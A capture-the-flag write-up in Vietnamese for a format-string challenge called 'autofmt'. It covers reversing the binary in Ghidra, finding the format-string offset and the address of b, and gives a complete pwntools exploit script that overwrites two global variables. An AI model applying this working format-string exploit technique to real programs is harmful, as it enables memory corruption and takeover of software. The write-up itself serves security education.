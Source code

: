 # autofmt
## Description
trung bình  
`nc 45.122.249.68 10015`  
[Attachment](https://cnsc.uit.edu.vn/ctf/files/8039b457e34e53cca8bdb45293ebcd7c/autofmt.zip?token=eyJ1c2VyX2lkIjoxMTczLCJ0ZWFtX2lkIjo1MDUsImZpbGVfaWQiOjE4OX0.Yck7ow.pQvirDeUUnBjbD5rzdr7hwF8Ddw)

## Solution
Khi chạy chương trình thì ta thấy rằng, chương trình sẽ in ra giá trị của `a`, `b`, và địa chỉ của `a`.  

![image](https://user-images.githubusercontent.com/44528004/147433337-ab035699-2094-4264-89bf-bfd798e9fefc.png)  

Sử dụng ghidra để reverse thì ta thấy rằng biến `a` và `b` là biến toàn cục và biến `a` nằm ở địa chỉ cao hơn biến `b` 8 bytes.  

![image](https://user-images.githubusercontent.com/44528004/147433429-9f0cb202-682c-4f3b-8ed9-5ea36cd4df42.png)

Đồng thời ta cũng tìm được offset của format string là `10`.  

![image](https://user-images.githubusercontent.com/44528004/147433711-90a8b646-e305-4923-88a3-7cbd1bd0b3df.png)

Với các thông tin trên, ta có thể sử dụng `pwnlib.fmtstr` để exploit như sau:
```python
from pwn import *
from pwnlib.fmtstr import *

p = process('./autofmt')
# p = remote('45.122.249.68', 10015)
elf = ELF('./autofmt')

p.recvline()
p.recvuntil(b'a = ')
a_value = int(p.recvline().strip().decode())
p.recvuntil(b'b = ')
b_value = int(p.recvline().strip().decode())
p.recvuntil(b'a address: ')
a_addr = int(p.recvline().strip().decode(), 16)
b_addr = a_addr - 8

context.bits = 64
writes = {a_addr: a_value, b_addr: b_value}

payload = fmtstr_payload(10, writes, write_size='short')
p.sendline(payload)
p.interactive()
```

Kết quả chạy local:  

![image](https://user-images.githubusercontent.com/44528004/147433827-6fcd0549-5177-436a-a5b8-503697bbe01e.png)

